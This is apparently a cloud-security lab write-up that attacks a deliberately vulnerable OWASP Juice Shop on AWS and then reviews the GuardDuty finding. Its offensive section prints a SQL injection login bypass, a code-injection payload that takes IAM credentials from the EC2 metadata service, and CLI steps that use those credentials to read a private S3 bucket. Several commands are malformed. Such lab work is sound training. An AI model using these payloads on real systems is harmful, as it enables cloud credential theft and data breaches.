# Threat Detection using AWS GuardDuty
By: Joneil lan Morano

## Summary
This mini-project demonstrates practical knowledge and hands-on experience in spotting and exploiting web vulnerabilities and using AWS GuardDuty to detect and analyze threats. With this, we will deploy a vulnerable web application (OWASP Juice Shop) on purpose, use offensive techniques to steal credentials and sensitive data from an AWS EC2 instance, and detect and analyze these attacks using GuardDuty. At the end of this project, an extension for implementing malware protection on AWS resources will also be demonstrated.

## Architecture and Tech Stack
The infrastructure relies on different resources across three main categories: compute, storage, and networking. 
* Services Used: Amazon GuardDuty, Amazon CloudFront, Amazon S3, AWS CloudFormation, and the OWASP Juice Shop. 
* Networking: The setup includes a VPC, Subnets, Security Groups, an Internet Gateway, Route Tables, and VPC Endpoints.

## Overview



**Process of the Project** 
* Phase 1: Infrastructure Deployment 
* Phase 2: Offensive Operations 
* Phase 3: Defensive Operations 

---

## Phase 1: Infrastructure Deployment 

 

To simulate a real-world environment, the infrastructure was deployed using Infrastructure as Code (laC).  Since threat detection using GuardDuty is the main goal of this project, we will not go into detail on how to use the CloudFormation template (YAML or JSON file) in AWS. 

1. A CloudFormation template was launched to deploy the OWASP Juice Shop web application.  Deploying the environment via CloudFormation allowed for immediate testing of the application's security posture. 

 

2. We can then access the web application through the output link of our cloud deployment. 

 

3. This CloudFormation template also deploys an S3 bucket for storage.  This bucket will then store a file named important-information.txt, which is meant to simulate sensitive data.  Later, we're going to access this file and read its contents by performing a data breach. 

---

## Phase 2: Offensive Operations 

### 1. SQL Injection (Authentication Bypass) 
The first phase of the attack targeted the application's login mechanism.  By manipulating the SQL query used for login, the authentication check was bypassed. 

 

The payload ' or 1=1;-- was entered into the email field, forcing the database query to evaluate to true. 

 

### 2. Command Injection and Credential Exfiltration 
Following the initial breach, the objective shifted to exfiltrating cloud environment credentials.  A JavaScript payload was executed within the application's user profile username field.  The script accessed the EC2 instance metadata service to retrieve a session token and IAM credentials. 

```javascript
#{global.process.mainModule.require('child_process').exec(
'CREDURL=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/);
TOKEN= curl -X PUT "[http://169.254.169.254/latest/api/token](http://169.254.169.254/latest/api/token)" -H
"X-aws-ec2-metadata-token-ttl-seconds: 21600" &&
CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL |
echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN") &&
echo $CRED | json_pp >frontend/dist/frontend/assets/public/credentials.json')}
``` 

 

These stolen credentials were then saved to a public JSON file (/assets/public/credentials.json), making them accessible over the internet. 

 

### 3. Data Theft via AWS CloudShell 
Using the compromised IAM credentials, the attack was escalated to access secure cloud storage 

 

 


AWS CloudShell was utilized to configure a new CLI profile using the stolen AccessKeyld and SecretAccessKey. 

```bash
$aws configure set profile.stolen.region ap-southeast-1
$aws configure set profile.stolen.aws_access_key_id cat credentials.json | jq-r.AccessKeyId'
$aws configure set profile.stolen.aws_secret_access_key cat credentials.json | jqr.SecretAccessKey"
$aws configure set profile.stolen.aws_session_token cat credentials.json | jqr.Token"
```

The attacker profile successfully accessed a secure S3 bucket and downloaded a file named secret-information.txt, completing the data exfiltration objective. 

```bash
~$ cat secret-information.txt
Dang it if you can see this text, you're accessing our private information!
``` 

---

## Phase 3: Defensive Operations 
With the attacks executed, the focus shifted to analyzing the environment's automated threat detection capabilities. 

1. AWS GuardDuty successfully detected the unauthorized activity and generated a high-severity finding. 

 

The finding, categorized as an unauthorized use of EC2 instance credentials from a remote AWS account, identified the exact role (GuardDuty-project-lan-TheRole-JYRr30gc5FV0) that was compromised. 

 
